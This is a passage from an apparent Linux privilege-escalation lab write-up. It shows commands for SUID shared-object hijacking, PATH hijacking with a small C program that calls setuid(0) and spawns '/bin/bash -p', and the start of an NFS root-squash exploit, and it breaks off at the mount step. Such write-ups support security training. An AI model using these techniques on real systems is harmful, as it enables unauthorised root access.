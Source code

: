 ```bash
root@gr4n173:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```


Now, after running this we can see that shared object is loaded in our home directory but can't be found. So we can create that executables and the spawn a bash shell.
```bash
root@gr4n173:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```


Finally running the executables again we spawn the root shell.

### Environment Variables
Here we exploit the executables due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Lets take an example if `service` executable is being called to start the webserver, however full path isn't used then we can use the executable called service and spawn the Bash shell.
```bash
root@gr4n173:~$ gcc -o service /home/user/file/service.c
```

```c
$ Service code
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

## 6. NFS
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
root@gr4n173:~$ cat /etc/exports
```

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```bash
root@gr4n173:~$ sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

```bash
root@gr4n173:~$ mkdir /tmp/nfs  
root@gr4n173:~$ mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```
